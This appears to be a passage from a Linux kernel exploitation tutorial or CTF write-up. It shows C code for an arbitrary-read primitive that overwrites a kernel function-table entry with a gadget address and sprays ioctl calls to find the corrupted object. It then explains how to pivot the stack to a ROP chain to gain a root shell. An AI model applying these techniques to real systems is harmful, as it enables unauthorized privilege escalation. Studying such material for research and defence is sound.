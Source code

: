 ```c
int cached_fd = -1;
unsigned int AAR32(long long addr) {
    if (cached_fd == -1) {
        long long* p = (long long*)&buf;
        // mov eax, dword ptr [rdx] ; ret 
        p[12] = 0xffffffff8118a285;

        *(long long*)&buf[0x418] = g_buf;
        write(fd, buf, 0x500);

        for (int i = 0; i < 100; i++) {
            int v = ioctl(spray[i], 0, addr);
            if (v != -1) {
                cached_fd = spray[i];
                return v;
            }
        }
    } else {
        ioctl(cached_fd, 0, addr);
    }
}
```

# I have AAW / AAR primitives, now what?

There is more ways to get root shell such as crafting ROP chain and jumping to it, using `modprobe`, patching `struct cred` in memory etc.

## Jumping to ROP chain

This technique involves finding a gadget that allows us to write to register `rsp` and then executing `ret` to pivot to our ROP chain.

These are the steps for this technique:

1. Craft ROP chain in kernel memory
2. Obtain start address of our ROP chain in kernel
3. Find a pivot gadget that ultimatively does `mov rsp rcx/rdx; ret;`. Remember we can control `rcx` and `rdx` through `ioctl()` call. Usually there is no such straightforward gadget present so we have to use more complex gadgets like
```bash
push rdx
xor eax, 0x415b004f
pop rsp
pop rbp
ret
```
that have the same effect.

4. Overwrite function table as shown before so it executes the pivot gadget
5. Call `ioctl()` to trigger the jump
